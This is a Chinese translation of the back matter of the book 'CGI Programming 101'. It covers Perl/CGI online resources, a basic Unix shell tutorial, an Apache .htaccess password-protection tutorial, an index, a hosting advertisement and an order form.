还有许多其他优秀的 Perl 和 CGI 书籍可供选择，可以帮助你拓宽专业知识。你可以在 http://www.cgi101.com/books.html 找到一份书单。

附录 A（在线资源）中列出的许多网站都是有价值的参考。

如果你对本书有任何评论、问题或其他反馈，或者对将来版本希望看到的内容有建议，请给我发送电子邮件至 kira@cgi101.com。

祝你在 CGI 领域取得成功！

*— Jacqueline Hamilton*

# 附录 A：在线资源

CGI 101（http://www.cgi101.com/）是本书的官方网站。提供了书中所有 CGI 的源代码。CGI101.com 还提供具有 CGI 特定功能的 Unix shell 账户和网络托管、订阅者的脚本库、额外的在线文档以及与作者的聊天。

Perl.com（http://www.perl.com/）是 Perl 的网络站点。链接到 Perl 源代码、CPAN、常见问题解答、Perl 新闻以及网络上相关的 Perl 和 CGI 站点。

The Perl Journal（http://tpj.com/）是一份专注于 Perl 语言的季刊。Perl 程序员的必读杂志。

The CGI Resource Index（http://www.cgi-resources.com/）包括指向数百个 CGI 相关站点的链接，包括程序和脚本、文档、书籍、杂志文章和职位列表的链接。

The CGI Programming FAQ（http://www.webthing.com/tutorials/cgifaq.html）——关于 CGI 编程的常见问题解答。

The Perl CGI Programming FAQ（http://www.perl.com/CPAN/local/doc/FAQs/cgi/perl-cgi-faq.html）——特定于 Perl 的 CGI 问题和答案。

The WWW Security FAQ（http://www.w3.org/Security/Faq/www-security-faq.html）包含关于网络上信息安全的更通用信息。它包含一个关于 CGI 的部分，以及有关运行安全服务器、保护机密数据、在 Perl 中进行安全脚本编写等信息。

CGI/Perl Taint Mode FAQ（http://gunther.web66.com/FAQS/taintmode.html）关于 taintperl 和安全脚本编写的信息。

The Perl Reference: Windows（http://www.perl.com/reference/query.cgi?windows）——包含许多提供有关在 Windows 3.1、Windows 95 和 Windows NT 系统上运行 Perl 信息的站点链接。

Randal Schwartz 自 1996 年以来一直在 *Web Techniques* 杂志上撰写 Perl 专栏。所有文章都已归档在他的网站 http://www.stonehenge.com/merlyn/WebTechniques/ 上。

有几个用于讨论 Perl 和 CGI 主题的 Usenet 新闻组；`comp.infosystems.www.authoring.cgi` 和 `comp.lang.perl.misc` 是两个主要的组。通过你当地的 ISP 阅读它们，或使用 DejaNews（http://www.deja.com/——点击 "power search"）搜索它们。

有兴趣从事 CGI 职业吗？这里有一些你可以发布简历和/或搜索职位空缺的网站：

- Monster.com（http://www.monster.com/）——前身为 Online Career Center
- DICE（http://www.dice.com/）——在线高科技职位
- Computer Jobs（http://www.computerjobs.com/）
- jobs.internet.com（http://jobs.internet.com/）
- HotJobs（http://www.hotjobs.com/）
- HeadHunter（http://www.headhunter.net/）
- Career Mosaic（http://www.careermosaic.com/）

还有许多其他的求职网站：可以在 http://www.100hot.com/directory/business/jobs.html 查看 100hot jobs 页面获取长列表。

# 附录 B：Unix 教程

不熟悉 Unix？别担心；这是一份便捷的指南，涵盖了你熟练使用 Unix shell 所需了解的所有知识。

首先，你需要通过 telnet 到该机器来连接到 Unix shell（参见引言部分了解如何登录）。一旦你登录到 Unix 主机，你就会进入 shell。你屏幕上首先看到的内容可能类似于这样：

```
Last login: Thu Jan 28 09:02:47 1999 from as2-dialup-133.io.com
You have new mail.
%
```

在这个例子中，`%` 被称为“提示符”。当你输入时，你的输入会出现在提示符的右边，当你按下回车键时，shell 会尝试运行你输入的命令，然后显示另一个提示符。

在 shell 中工作时要记住的一件事：Unix 区分大小写。“CD”和“cd”不是一回事。关闭你的大写锁定键，并在 shell 中工作时保持关闭——所有 shell 命令都是小写的。

下面显示的所有命令都是你应该在 Unix 提示符下实际输入的命令。基本命令以固定宽度字体显示，如下所示：

```
command
```

可选参数在命令后面的方括号中显示：

```
command [options]
```

如果存在可选参数，它们应该在命令本身之后输入，不带方括号 `[]`。

所有这些命令也都有在线文档，称为 `man`（手册）页。有关其中任何一个的更多信息，只需输入：

```
man command
```

下面给出的示例文件名为“filename”。当然，你应该用你想要修改、编辑、查看等的实际文件名替换“filename”。

## 弄清楚你在哪里

```
pwd
```

打印当前（工作）目录，如下所示：

```
% pwd
/home/kira
```

## 切换到另一个目录

```
cd [directory]
```

更改当前工作目录。要返回上一级目录，你可以这样做：

```
cd ..
```

要切换到当前目录中的子目录，你只需输入该子目录的名称：

```
cd public_html
```

要切换到系统上的其他目录，你必须输入完整的路径名：

```
cd /tmp
```

如果你只输入 `cd`，你将移回你的主目录。

## 查看这里有什么

```
ls [-options] [name]
```

列出当前目录的内容。`ls` 命令本身仅打印目录中文件的分栏列表：

```
% ls
News	letters	public_html
admin	lynx_bookmarks.html	scripts
bin	bin	mail	tempo.el
biz	moo	tiny.world
bkup	perl-mode.el	tmp
html-helper-mode.el	perlmods
```

这里有一些其他选项，可以格式化列表或显示关于文件的附加信息：

- `-a`：列出所有文件，包括以 `.` 开头的文件
- `-d`：将目录像其他文件一样列出，而不是显示其内容
- `-k`：以 KB 为单位列出文件大小
- `-l`：详细（冗长）格式——显示权限、所有权、大小和修改日期
- `-t`：根据修改时间对列表进行排序（最近修改的文件排在前面）
- `-X`：根据文件扩展名对文件进行排序
- `-1`：将列表显示为 1 列

选项可以组合使用：在本例中，我们按最后修改日期显示文件的详细列表：


`ls -lt` 命令输出示例：

```text
% ls -lt
total 94
drwx------  2 kira  kira  1024 Feb 28 19:41 scripts
drwx------ 13 kira  kira  1024 Feb 28 19:39 perlmods
drwxr-xr-x  2 kira  kira  1024 Feb 28 19:38 public_html
drwx------  7 kira  kira  1024 Feb 28 19:00 moo
drwx------  2 kira  kira  1024 Feb 26 18:45 mail
-rw-------  1 kira  kira    29 Feb 21 16:29 tiny.world
drwx------  2 kira  kira  1024 Feb 20 09:25 bin
drwx------  2 kira  kira  1024 Feb 14 01:29 tmp
drwx--x--x  2 kira  kira  1024 Jan  9 20:59 News
drwx------  2 kira  kira  1024 Nov 13 09:02 bkup
-rw-r--r--  1 kira  kira   592 Nov  8 18:12 lynx_bookmarks.html
-rw-rw-r--  1 kira  kira 23815 Oct 25 07:35 tempo.el
-rw-rw---- 1 kira kira 25802 Oct 25 07:35 perl-mode.el
-rw-r--r-- 1 kira kira 27491 Oct 25 07:35 html-helper-mode.el
```

此外，您可以指定要列出的文件名或目录：

```text
% ls -l public_html/
total 1
-rwxr-xr-x 1 kira kira 436 Feb 28 19:52 index.html
```

详细列表显示了给定文件的文件权限：

```text
-rwxr-xr-x
```

目录在第一列中有一个 `d`；普通文件有一个 `-`。剩余的 9 个字符表示文件的所有者、组和世界权限。`r` 表示可读；`w` 是可写，而 `x` 是可执行。列中出现破折号而不是字母意味着该特定权限已关闭。因此，`-rwxr-xr-x` 是一个普通文件，所有者拥有读-写-执行权限，组和世界拥有读和执行权限。`drwx------` 是一个目录，所有者拥有读-写-执行权限，而组和世界完全没有任何权限。

## 文件和目录权限

```text
chmod [permissions] [file]
```

更改指定文件的权限。有几种指定权限的方法。您可以使用数字，如下所示：

```text
chmod 755 index.html
```

第一个数字转换为所有者的权限。第二个是组的权限。第三个是所有人的权限。

| 数字 | 字母 | 权限 |

| :--- | :--- | :--- |

| 0 | --- | 无权限 |

| 1 | --x | 仅可执行 |

| 2 | -w- | 仅可写 |

| 3 | -wx | 可写且可执行 |

| 4 | r-- | 仅可读 |

| 5 | r-x | 可读且可执行 |

| 6 | rw- | 可读且可写 |

| 7 | rwx | 可读、可写且可执行 |

设置权限的第二种方法是使用字母：

```text
chmod u+rwx,go+rx index.html
```

`u` 是所有者（"用户"）的权限；`g` 是组权限，`o` 是"其他"或世界权限。`+` 符号开启所述权限；`-` 符号关闭它们。因此，如果您想更改一个文件，使其对组可写，但不可读或不可执行，您应该执行：

```text
chmod g+w,g-rx filename
```

目录应该始终设置 `x` 权限，至少对所有者如此。如果您不小心取消设置了目录的 `x` 位，您将无法在该目录中执行任何操作（Web 服务器也一样）。如果您对主目录执行此操作，您可能甚至无法登录。此外，Web 服务器读取并执行目录内的文件并不要求目录本身必须可读。只有文件本身必须可读。出于安全目的，您应该将 Web 目录设置为 711 模式，如下所示：

```text
drwx--x--x 2 kira kira 1024 Feb 28 19:52 public_html
```

这样可以防止其他用户在您的目录中窥探，同时仍允许 Web 服务器调用您的页面并运行您的脚本。

## 文件名

Unix 文件名中不能包含空格、斜杠或奇怪的字符。（或者有时可以包含，但这会让您的生活变得很痛苦，因为引用奇怪的字符需要在文件名中使用反斜杠。）此外，文件名是区分大小写的，因此如果您创建了一个脚本并将其上传为 `COUNTER.CGI`，而您的页面执行 `<!--#exec cgi="counter.cgi"-->`，它将无法工作，因为 Unix 无法在您的目录中找到 `counter.cgi`。

## 创建文件

您可以通过使用编辑器编辑文件，或者通过 FTP 将其上传到您的目录来创建文件。大多数 Unix 系统包含 `pico`，这是一个非常简单的文本编辑器。要使用它，只需输入：

```text
pico newfile.cgi
```

您将进入编辑器，可以在其中输入新的文本行，并使用方向键在文档中移动。Pico 提供了一套有限的剪切和粘贴实用工具，这些工具显示在编辑屏幕的底部。编辑完成后，只需输入 control-X 即可保存文件。

其他编辑器（如 `vi` 和 `emacs`）也可以使用，尽管它们学习和使用的难度较大。关于这些编辑器已经写了整本书。如果您有兴趣使用它们，请先尝试 `man` 手册页，然后在网上搜索：有很多优秀的教程网站。

还有一种无需编辑即可创建空文件的方法：`touch` 命令。

```text
touch filename
```

`touch` 的主要用途是更新文件的时间戳：如果您 `touch` 一个现有文件，它会将该文件的最后修改日期更改为现在。但是，如果文件不存在，`touch` 会创建一个空文件。这对于创建计数器数据文件或输出日志非常有用：

```text
touch outlog
chmod 666 outlog
```

## 复制文件

```text
cp [options] source dest
```

将源文件复制到目的地。复制后源文件依然存在。选项：

- `-b` — 备份即将被覆盖或删除的文件

- `-i` — 交互模式；如果 `dest` 存在，将询问您是否覆盖该文件

- `-p` — 保留原文件的所有权、组、权限和时间戳

## 移动（重命名）文件

```text
mv [options] source dest
```

将源文件移动到目的地。之后源文件将不再存在。

选项：

- `-b`: 备份即将被覆盖或删除的文件

- `-i`: 交互模式；如果 `dest` 存在，将询问您是否覆盖该文件

## 查看文件

```text
more filename
less filename
```

这两个命令允许您分页查看文件。`less` 通常更受欢迎，因为它允许您在文件中向后翻页。这两个命令都从第一行开始滚动浏览文件，一次显示一页。按下空格键继续到下一页。在 `less` 中，按下 `b` 而不是空格键将返回上一页。还存在多种其他滚动和搜索选项：请查阅 `man` 手册页以获取详细列表。

```text
head [options] filename
tail [options] filename
```

`head` 显示文件开头的行。如果没有给出选项，默认显示 10 行。可以使用可选参数来指定要显示的行数。例如，要列出文件的前 5 行，您可以执行：

```text
head -5 filename
```

`tail` 与之类似，但它显示文件末尾的行。同样，在没有参数的情况下，它显示最后 10 行。`tail` 还支持 `-f` 选项，它会无限循环尝试从文件末尾读取字符。这对于查看不断增长的日志文件尤其有用：

```text
tail -f access_log
```

然而，跳出 `tail -f` 的唯一方法是发送一个中断信号（通常是 control-C）。

## 在文件中搜索内容

```text
grep [options] pattern filenames
fgrep [options] string filenames
```

## grep 和 fgrep

`grep` 和 `fgrep` 在文件或多个文件中搜索给定的模式。`fgrep`（或"快速 grep"）仅搜索字符串：而 `grep` 则是功能完整的正则表达式匹配器。以下是一些有效的选项：

- `-i` 不区分大小写搜索

- `-n` 显示匹配行及其行号

- `-v` 反向匹配，例如查找所有不匹配的行

- `-w` 匹配整个单词，而非子字符串

示例：如果你想在名为 `fnord` 的文件中查找单词 "Fred" 的所有出现，不区分大小写但要求匹配整个单词（例如不匹配 "Frederick"），并显示行号：

```text
% grep -inw "Fred" fnord
3:Fred
9:Fred
```

`grep` 还有很多其他选项。请查阅 `man` 手册页获取更多信息。

## 删除文件

```text
rm [options] filenames
```

删除指定的文件。选项：

- `-f` 强制删除，不进行提示确认

- `-i` 交互模式 - 提示你是否要删除文件

- `-R` 递归删除目录中的所有文件

## 创建目录

```text
mkdir dirname
```

创建指定的目录。如果未给出完整路径，目录将作为当前工作目录的子目录创建。你必须对当前目录拥有写权限才能创建新目录。

## 删除目录

```text
rmdir dirname
```

删除指定的目录。如果目录不为空，此命令将失败。要删除目录中的所有文件，请先执行 `rm -rf dirname`。

## 在线用户

```text
who
w
```

这两个命令都可以显示在线用户列表。`who` 通常只显示登录名、登录时间和登录来源主机。`w` 还会显示系统运行时间，以及用户列表、登录时间、空闲时间、CPU 使用率和最后执行的命令。

以上内容应该足以让你开始使用 Unix shell。如果你想了解更多关于 Unix 的知识，或者打算进行 shell 编程或系统管理，我强烈推荐 Mark G. Sobell 的优秀著作《A Practical Guide to the Unix System》（ISBN #0805375651），或者（如果你使用 Linux）《A Practical Guide to Linux》（ISBN #0201895498）。这些是优秀的、实用的 Unix 指南，每本都包含 Unix shell 命令参考、`vi` 使用说明、C Shell、Bourne shell、编程工具等内容。

## 密码保护教程

假设你想要保护一组网页，要求输入用户名/密码才能访问。本教程将向你展示如何设置。本教程适用于 Apache 服务器；如果你使用其他 Web 服务器，你需要查阅该服务器的文档来了解如何实现。

## 密码保护目录的步骤

你只能对目录及其内部文件进行密码保护；无法保护单个文件（至少使用此方法不行）。因此，首先在你的 Web 区域中创建一个子目录。在本示例中，我们创建一个名为 `secure` 的目录。设置该目录的权限为所有人可读/可执行（以便 Web 服务器可以访问），然后进入该目录。

```text
mkdir secure
chmod 755 secure
cd secure
```

接下来，你需要在要保护的目录中创建一个 `.htaccess` 文件。创建一个新文件，并输入以下数据。**粗体**显示的项目需要根据这些文件和目录在你服务器上的位置进行更改。

```text
AuthUserFile /www/kira/secure/.htpasswd
AuthName **Toolbox Example**
AuthType Basic

<Limit GET>
require valid-user
</Limit>
```

`AuthName` 是用户在被要求输入密码时看到的内容 - 类似于 "Enter Authorization for Toolbox Example"。

现在你需要设置密码文件。你需要使用 `htpasswd` 程序来完成此操作。它包含在 NCSA 和 Apache 服务器中，通常位于服务器根目录下的 `support` 子目录中（尝试 `/usr/local/etc/httpd/support`）。你也可以编写自己的程序来生成加密密码；参见第 10 章了解加密示例。

现在，对于你要添加到密码文件中的每个用户，输入以下命令。（`-c` 仅在第一次时需要；它表示你要创建 `.htpasswd` 文件）。

```text
htpasswd -c /www/kira/secure/.htpasswd user1
        [ 系统会提示你输入 user1 的密码 ]
htpasswd /www/kira/secure/.htpasswd user2
htpasswd /www/kira/secure/.htpasswd user3
```

将两个文件（`.htaccess` 和 `.htpasswd`）的权限设为 644。就这样 - 你现在拥有了一个密码保护的目录。

↗ 实际示例：http://lightsphere.com/dev/secure/ - 用户名为 `kira`，密码为 `blee1`。

## 资源

NCSA Mosaic 用户认证教程 -

http://hoohoo.ncsa.uiuc.edu/docs/tutorials/user.html

# 索引

- `!=` （不等于）运算符，37

- `!~` （绑定）运算符，126

- `$!` （错误），48-49

- `$#` （字符串长度减 1），12

- `%` （取模）运算符，24

- `%ENV` 哈希，17-22

- `-c` 标志，6

- `-cw` 标志，6

- `-T` 标志，143

- `.=` （连接）运算符，109

- `.htaccess` 文件，209

- `<` （小于），39

- `<<` （here document），5

- `<=` （小于等于）运算符，39

- `<=>` （比较）运算符，73

- `==` （等于）运算符，36

- `~=` （绑定）运算符，26, 125

- `>` （大于）运算符，38, 48

- `>=` （大于等于）运算符，39

- `>>`.ar

- `@_` （数组），33

- 不区分大小写匹配，130

- `catalog`，57

- `cd`，198

- CGI 安全，141-147

- `CGI.pm`，151-158

- 更改目录，198

- 复选框，39

- `chmod`，2, 3, 47-48, 50, 200-201

- 关闭文件，52

- `cmp`，73

- 连接，109

- `config` （SSI 元素），80

- `Content-type`，4

- `CONTENT_LENGTH`，27

- `cookies`，133-140

- 复制文件，202

- 倒计时时钟，121

- 计数器，47, 158-161, 176-177

- `cp`，202

- `CPAN`，161-162

- `create table` （SQL 命令），167

- 创建目录，204

- 创建文件，202

- 创建图形，158-161

- 创建模块，179

- `cron`，190

- `crontab`，190-191

- `crypt`，99

- 当前目录，198

- 锚定匹配，131

- 参数，33

- 数组，10-13

- 认证，205-206

- 反向引用，129

- 反引号，142

- 绑定运算符，125

- 缓冲，188

- 数据库编程，171

- 星期名称，119

- `DBI` 模块，171

- 调试，6

- `delete` （SQL 命令），171

- `delete` （从哈希中删除元素），15

- 删除目录，205

- 删除文件，204

- `do`，175

- `DOCUMENT_ROOT`，17

- `echo` （SSI 元素），82

- 加密，96

- `ENV` 哈希，17-22

- 环境变量，17

- `eq`，39, 107

- `errmsg` （SSI 元素），80

- 转义引号，5

- `exec` （Perl），185

- `exec` （SSI 元素），82, 86-90

- 执行，172-173

- `exists`，15

- `Exporter`，179

- `EXPORT_OK`，179

- `GD.pm`，158-161

- `ge`，39

- `GET`，19-21, 25

- `gmtime`，117-118

- `grep`，69, 204

- `gt`，39

- 留言簿表单，28, 47

- 处理复选框，39

- 处理多选 `SELECT`，41

- 处理单选按钮，38

- 处理 `SELECT` 字段，40

- 哈希，13-15

- `head`，203

- `here-doc`，5

- 隐藏字段，57, 62

- `htaccess` 文件，209

- `htpasswd`，210

- `HTTPS`，17

- `HTTP_COOKIE`，17

- `HTTP_HOST`，17

- `HTTP_REFERER`，17-18, 22

- `HTTP_USER_AGENT`，17, 22

- `if-elsif`，35

- `include` （SSI 元素），84

- `index`，108

- `insert` （SQL 命令），169

- 连接字符串，109

- `keys`，13, 15

- `fetchrow_array`，173

- `fetchrow_hashref`，173

- `fgrep`，204

- 文件 I/O，47

- 文件锁定，49, 51-52

- 文件名，201

- 文件权限，2, 47-48, 200-201

- 文件上传，156

- 文件句柄，48

- 查找文档，162

- `flastmod` （SSI 元素），83

- 平面文件数据库，47, 51, 57, 99

- `flock`，49, 51-52

- `foreach`，11, 14

- 格式化日期和时间，120-121

- 格式化字符串，112-114

- `fsize` （SSI 元素），83

- `lc` （小写）运算符，107

- `le` （小于等于）运算符，39

- `less`，203

- 列出文件，198


- `localtime`，117-120
- 锁定文件，49, 51-52
- `ls`（列出文件），198
- `lt`（小于）运算符，39
- 格式错误的头部，7
- `man` 程序，144-145, 185, 198
- 匹配，125-132
- `mkdir`，204
- 模块，149-151
- 取模运算符，124
- 月份名称，119
- `more`，203
- 移动文件，203
- 多选 `SELECT`，41
- `mv`（移动文件），203
- `my`，33
- `MySQL`，166
- `mysqladmin`，166
- `ne`（不等于），39
- 对象，150
- 打开文件，48
- 订单表单，57
- 密码保护页面，205
- `PATH`，17
- 模式，126
- `perldoc`，162
- 权限，2, 47-48
- `pico`，1, 202
- `ping`，188
- 管道，29, 143
- 占位符，175
- `pop`，11
- `POST`，19-20, 25-26
- 脚本头部过早结束，7
- `prepare`，172
- 主键，168
- `printenv`（`SSI` 元素），84
- `printf`，112-114
- `push`，12
- `pwd`，198
- `qq`，111
- `QUERY_STRING`，17, 19-20, 89
- `qw`，149
- 单选按钮，38
- 随机广告横幅，97
- 随机图像，94
- 随机数，93
- 随机密码，95
- 随机种子，93
- `read`，27
- 读取文件，53
- 重定向，101-102
- `referer`，89
- 刷新，101, 103-105
- 正则表达式，125-132
- 关系型数据库，165
- `REMOTE_ADDR`，17, 21
- `REMOTE_HOST`，17, 21
- `REMOTE_PORT`，17
- `REMOTE_USER`，17-18
- 移除文件，204
- 移除 HTML 标签，129
- 重命名文件，203
- `REQUEST_METHOD`，17
- `REQUEST_URI`，17
- `reverse`（数组），12
- 反向绑定运算符，126
- `rindex`，108
- `rm`（删除文件），204
- `rmdir`（删除目录），205
- 标量变量，9
- `scalar`（数组函数），13
- `scalar`（哈希函数），15
- 调度脚本，190
- `SCRIPT_FILENAME`，17
- `SCRIPT_NAME`，17
- 搜索，69, 76, 204
- 安全，141-147
- 种子，93
- `seek`，49, 51-52
- `select`（SQL 命令），165, 169-170
- `SELECT` 字段，40
- `sendmail`，29
- 服务器日志（`server log`），6-7
- `server-parsed`，79
- 服务器端包含（`server-side includes`），79
- `SERVER_ADMIN`，17
- `SERVER_NAME`，17
- `SERVER_PORT`，17
- `SERVER_SOFTWARE`，17
- `set`（`SSI` 元素），84
- `shift`，11
- `sizefmt`（`SSI` 元素），80
- `sort`，12
- 排序（`sorting`），72-76
- `split`，20
- `sprintf`，112-114
- `SQL`，165
- `srand`，93
- `SSIs`，79
- 标准输入（`standard input`），10
- `STDIN`，10, 27
- 子程序（`subroutines`），32-33
- 替换（`substitutions`），128
- `substr`，108
- 子字符串（`substrings`），108
- `suEXEC`，47, 142, 146
- 调查问卷 `CGI`（`survey CGI`），42-44
- `system`，143, 185
- 数值（`values`），15
- 变量（`variables`），9
- 查看文件（`viewing files`），203
- `whereis`，3
- `which`，3
- `who`，186, 205
- `whois`，186
- 词边界（`word boundaries`），132
- 世界可写文件（`world-writable files`），47, 146
- 2000 年问题（`year 2000`），118
- `tail`，6, 203
- 污染检查（`taint checking`），141, 143
- `time`，117
- `timefmt`（`SSI` 元素），81
- `touch`，50, 202
- `translate`，26
- `uc`（大写），107
- 数据去污染（`untainting data`），144
- `update`（SQL 命令），171
- 上传文件（`uploading files`），156
- URL 编码（`URL encoding`），25
- 用户认证（`user authentication`），205-206

# CGI101.COM 虚拟主机服务

CGI 101 提供对 `CGI` 友好的 Unix shell 和虚拟主机 Web 账户，具有以下特点：

- 支持多种编程语言，包括 Perl、Java、C、C++ 和 TCL（如有需要，我们将安装其他语言）；
- 预安装了多种 Perl 模块，包括用于 Web 相关编程的流行 `CGI` 和 `LWP` 模块，用于动态创建图形的 `GD` 模块，以及许多其他模块；
- 提供现成的 `CGI` 脚本库，包括留言板、表单邮件发送器、计数器、广告横幅等；
- PHP（用于超快速 `CGI` 处理）和服务器端包含（`SSI`）；
- `MySQL` 数据库；
- 可使用我们的安全服务器（`https://secure.cgi101.com/~yourusername/`）；
- `CGI` 编程 101 聊天室。

请访问 `http://www.cgi101.com/hosting/` 注册账户！

# 订单表格

传真订购：`(281) 486-5424`

在线订购：`http://www.cgi101.com/class/order.html`

邮寄订购：`CGI101.COM, PO Box 891174, Houston TX 77289-1174`

请寄送 _____ 本 *CGI Programming 101*，每本 $24.95。

**收货信息：**

姓名：________________________________

地址：________________________________

城市：___________________ 州：_______ 邮编：__________

电话：`( _____ ) _____ - _________`

**销售税：**

寄往德克萨斯州地址的书籍请另加 6.25% 的税费。

**运费：**

- 美国和加拿大：第一本 $3，后续每本 $1.25
- 其他国家：第一本 $8，后续每本 $6

**付款方式：**

支票 [ ] 信用卡 [ ]

卡号：_________________________________ 有效期：____________

持卡人姓名：_____________________________________

签名：________________________________________

为万维网编写你自己的 `CGI` 程序！在不到一天的时间里，学习如何将 `CGI` 添加到你的网站中……即使你没有任何编程经验！

你手中掌握着 `CGI` 编程的关键。通过本书，你将在极短的时间内像专业人士一样编写 `CGI`。你将学习到：

- 基础知识：在哪里编写脚本；如何上传并设置文件权限；如何运行它们，以及在出错时如何调试；
- 如何解码表单数据并将其保存到文件或通过电子邮件发送给自己；
- 如何创建、读取、写入和搜索数据文件；
- 如何使用服务器端包含（`SSI`）为你的网页添加动态内容，以及 Apache `SSI` 指令的完整列表（及其使用示例）；
- 如何使用随机数来实现轮播广告横幅和随机图片选择器；
- 如何将访问者重定向到另一个网站；
- 如何通过使用 `CGI.pm` 和 `GD.pm` 等模块来扩展你的程序；
- 如何创建 `MySQL` 数据库，并编写使用 `DBI` 模块与数据库交互的脚本。

……以及更多内容！

## 还包含以下赠送附录：

- 在线资源列表，提供关于 Perl 和 `CGI` 的更多信息，以及寻找 `CGI` 工作职位的场所；
- Unix 教程，包含基本 shell 命令的示例和信息；
- 密码教程，向你展示如何为你的网站设置密码保护。

本书的配套网站（位于 `www.cgi101.com/class/`）包含书中所有示例的代码以及相关资源的链接。

`ISBN 0-9669426-0-4`

美国售价 $24.95

## 计算机编程语言：

Perl/CGI
